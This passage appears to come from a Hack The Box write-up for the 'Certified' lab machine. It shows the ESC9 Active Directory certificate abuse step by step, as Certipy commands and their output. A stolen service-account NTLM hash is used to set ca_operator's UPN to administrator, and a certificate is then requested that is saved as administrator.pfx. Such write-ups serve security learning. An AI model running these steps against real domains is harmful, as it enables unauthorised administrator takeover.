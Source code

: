 ```bash
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Property Principals       : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
    [!] Vulnerabilities
      ESC9                              : 'CERTIFIED.HTB\\operator ca' can enroll and template has no security extension
```


This [Blog](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7) guided me through that, and as it said the Requisites is `GenericWrite` over any account A to compromise any account B.

To perform this attack we will need the password hash of the `ca_operator` which is below (I used this [Website](https://codebeautify.org/ntlm-hash-generator) to hash the password `S3cur3P@ssw0rd!`)

```
D5915E565671E06FD6D67A460D59583E
```

Next, we change the `userPrincipalName` of `ca_operator` to be `Administrator`.

```bash
┌──(ayoub㉿MyKali)-[~/…/HTB/Certified/CA/C!]
└─$ sudo certipy-ad account update -username management_svc@certified.htb -hashes  a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn administrator      
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_operator'
```

Now, we request the vulnerable certificate template `CertifiedAuthentication`. We must request the certificate as `ca_operator`.

```bash
┌──(.venv)─(ayoub㉿MyKali)-[~/…/HTB/Certified/CA/C!]
└─$ sudo certipy-ad req -username ca_operator@certified.htb -hashes D5915E565671E06FD6D67A460D59583E -ca certified-DC01-CA -template CertifiedAuthentication -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'CERTIFIED.HTB' at '192.168.1.254'
[+] Resolved 'CERTIFIED.HTB' from cache: 10.10.11.41
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.41[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.41[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
